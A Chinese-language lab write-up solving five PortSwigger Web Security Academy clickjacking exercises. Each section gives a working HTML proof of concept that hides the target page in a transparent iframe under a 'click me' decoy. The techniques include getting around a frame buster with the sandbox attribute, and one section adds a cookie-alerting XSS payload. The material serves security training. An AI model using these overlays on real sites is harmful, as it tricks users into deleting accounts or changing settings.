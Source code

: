 [TOC]

#### 1. Basic clickjacking with CSRF token protection

这个题就直接调整位置，把click me放到delete account里面就可以了。

POC：

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:325px;
       left:50px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac271f761f1fdb0480990a41001600cd.web-security-academy.net/account"></iframe>
```

#### 2. Clickjacking with form input data prefilled from a URL parameter

这道题和第一题的区别就在于要自动填入邮箱。

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:435px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acc91fe11f276ef48087348200d4004e.web-security-academy.net/email?email=11@11"></iframe>
```

#### 3. Clickjacking with a frame buster script

> Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe **`sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:**
>
> `<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`
>
> Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site.

POC:

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:425px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://acf51fe41e83555c80d329f2007d0006.web-security-academy.net/email?email=11@11" sandbox="allow-forms"></iframe>
```

这里果然禁止了脚本的执行：

![3.1](Clickjacking.assets/3.1.png)

而不加sandbox的属性时，就不能成功了。

![3.2](Clickjacking.assets/3.2.png)

#### 4. Exploiting clickjacking vulnerability to trigger DOM-based XSS

这个题目包含一个 XSS 漏洞，而这个题目的目的就是用 Clickjacking 去触发 XSS 。

先找到 XSS 漏洞在 feedback 的 name 处。

payload：

```
donx<img src="uuu" onerror="alert(document.cookie)">
```

POC：

```html
<style>
   iframe {
       position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
   }
   div {
       position:absolute;
       top:805px;
       left:55px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe src="https://ac191f091e6a2a4180e41715004400e8.web-security-academy.net/feedback?name=<img src='' onerror='alert(document.cookie)'>&email=1@1&subject=1&message=1"></iframe>
```

#### 5. Multistep clickjacking

这道题目需要多次点击。

这里使用id来创建多个div。

POC:

```html
<head>
  <style>
    #target_website {
      position:relative;
       width:1000px;
       height: 1500px;
       opacity: 0;
       z-index: 2;
      }
    #first {
      position:absolute;
       top:280px;
       left:45px;
       z-index: 1;
      }
    #second {
       position:absolute;
       top:280px;
       left:200px;
       z-index: 1;
     } 
  </style>
</head>
<body>
  <div id="first">Click me first</div>
  <div id="second">Click me second</div>
  <iframe id="target_website" src="https://ac0d1ff41ec12a19805c2be0006e0032.web-security-academy.net/account">
  </iframe>
</body>
```


